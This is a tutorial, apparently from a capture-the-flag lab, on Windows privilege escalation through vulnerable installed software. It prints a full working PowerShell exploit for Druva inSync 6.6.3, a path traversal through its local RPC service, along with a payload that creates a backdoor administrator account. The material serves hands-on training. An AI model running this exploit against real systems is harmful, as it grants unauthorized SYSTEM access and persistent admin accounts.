


Abusing Vulnerable Software
Unpatched Software
Software installed on the target system can present various privilege escalation opportunities. As with drivers, organisations and users may not update them as often as they update the operating system. You can use the
wmic tool to list software installed on the target system and its versions. The command below will dump information it can gather on installed software (it might take around a minute to finish):
wmic product get name,version,vendorRemember that the
wmic product command may not return all installed programs. Depending on how some of the programs were installed, they might not get listed here. It is always worth checking desktop shortcuts, available services or generally any trace that indicates the existence of additional software that might be vulnerable.
Once we have gathered product version information, we can always search for existing exploits on the installed software online on sites like
exploit-db,
packet storm or plain old
Google, amongst many others.
Using wmic and Google, can you find a known vulnerability on any installed product?
Case Study: Druva inSync 6.6.3
The target server is running Druva inSync 6.6.3, which is vulnerable to privilege escalation as reported by
Matteo Malvica. The vulnerability results from a bad patch applied over another vulnerability reported initially for version 6.5.0 by
Chris Lyne.
The software is vulnerable because it runs an RPC (Remote Procedure Call) server on port 6064 with SYSTEM privileges, accessible from localhost only. If you aren't familiar with RPC, it is simply a mechanism that allows a given process to expose functions (called procedures in RPC lingo) over the network so that other machines can call them remotely.
In the case of Druva inSync, one of the procedures exposed (specifically procedure number 5) on port 6064 allowed anyone to request the execution of any command. Since the RPC server runs as SYSTEM, any command gets executed with SYSTEM privileges.
The original vulnerability reported on versions 6.5.0 and prior allowed any command to be run without restrictions. The original idea behind providing such functionality was to remotely execute some specific binaries provided with inSync, rather than any command. Still, no check was made to make sure of that.
A patch was issued, where they decided to check that the executed command started with the string
C:\ProgramData\Druva\inSync4\, where the allowed binaries were supposed to be. But then, this proved insufficient since you could simply make a path traversal attack to bypass this kind of control. Suppose that you want to execute
C:\Windows\System32\cmd.exe, which is not in the allowed path; you could simply ask the server to run
C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe and that would bypass the check successfully.
To put together a working exploit, we need to understand how to talk to port 6064. Luckily for us, the protocol in use is straightforward, and the packets to be sent are depicted in the following diagram:
The first packet is simply a hello packet that contains a fixed string. The second packet indicates that we want to execute procedure number 5, as this is the vulnerable procedure that will execute any command for us. The last two packets are used to send the length of the command and the command string to be executed, respectively.
Initially published by Matteo Malvica
here, the following exploit can be used in your target machine to elevate privileges and retrieve this task's flag. For your convenience, here is the original exploit's code:
$ErrorActionPreference = "Stop"
$cmd = "net user pwnd /add"
$s = New-Object System.Net.Sockets.Socket(
[System.Net.Sockets.AddressFamily]::InterNetwork,
[System.Net.Sockets.SocketType]::Stream,
[System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)
$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);
$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)You can pop a Powershell console and paste the exploit directly to execute it (The exploit is also available in the target machine at
C:\tools\Druva_inSync_exploit.txt). Note that the exploit's default payload, specified in the
$cmd variable, will create a user named
pwnd in the system, but won't assign him administrative privileges, so we will probably want to change the payload for something more useful. For this room, we will change the payload to run the following command:
net user pwnd SimplePass123 /add & net localgroup administrators pwnd /addThis will create user
pwnd with a password of
SimplePass123 and add it to the administrators' group. If the exploit was successful, you should be able to run the following command to verify that the user
pwnd exists and is part of the administrators' group:
Command Prompt
PS C:\> net user pwnd
User name pwnd
Full Name
Account active Yes
[...]
Local Group Memberships *Administrators *Users
Global Group memberships *None As a last step, you can run a command prompt as administrator:
When prompted for credentials, use the
pwnd account. From the new command prompt, you can
retrieve your flag from the Administrator's desktop with the following command type C:\Users\Administrator\Desktop\flag.txt.{kind=link}
{kind=link}